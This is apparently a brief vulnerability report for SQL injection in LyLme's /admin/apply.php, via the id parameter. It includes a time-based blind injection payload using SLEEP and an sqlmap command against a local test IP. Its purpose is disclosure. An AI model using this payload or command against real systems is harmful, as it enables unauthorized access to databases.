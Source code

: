 # SQL injection exists in LyLme
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/75ae7f42-4f50-4ac9-9612-883034ff3b27)

<br>**Vulnerability function points, concatenated according to code routing, we get /admin/apply.php? set=edit&id=1

Injection point id

Here delay injection to prove the injection point, write

payload: 1' AND (SELECT 5289 FROM (SELECT(SLEEP(5)) enfo)-- ihbh**</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/be2226be-c8a1-41dd-9cdb-73763621a31c)
<br>Change sleep (1)</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/69cecb47-befc-4b32-9e42-2e8e15e37f2d)
<br>**Vulnerability exists

Attack using SQLMAP

SQLMAP:

Python sqlmap. Py - u "http://192.168.30.203/admin/apply.php? set=edit&id=1" -p id**</br>
